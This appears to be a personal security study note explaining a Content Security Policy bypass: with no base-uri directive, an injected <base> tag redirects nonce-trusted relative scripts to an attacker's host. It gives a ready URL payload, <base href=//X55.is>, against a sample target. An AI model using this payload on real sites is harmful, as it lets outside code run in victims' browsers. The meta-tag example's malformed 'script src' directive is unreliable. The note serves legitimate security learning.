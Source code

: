 A [dangling markup injection](obsidian://open?vault=security-notes&file=Offensive%20Security%2FWeb%20Application%20Security%2FVulnerabilities%20%26%20Attacks%2FCross-Site%20Scripting%2FDangling%20Markup%20Injection%2FIntroduction) can be performed if the `base-uri` directive is absent in the defined CSP.

Moreover, if the page is loading a script using a relative path (i.e `/js/app.js`) and is using a `nonce`, attackers can abuse the `base` tag to make it load a script from a server that they control.

In order for this to work, the CSP tag or header must contain the following:
```html
<meta http-equiv="Content-Security-Policy" content="script src 'nonce-abcd1234'">
```
```http
HTTP/1.1 200 OK
...
Content-Security-Policy: script-src 'nonce-abcd1234';
```

An attacker can be used the following payload `<base href=//X55.is>` as follows:
```txt
http://target-website.com/?name=guest<base%20href=//X55.is>
```
>Note: If the vulnerable page is loaded with HTTPS, make sure to use HTTPS URL in the `base` tag.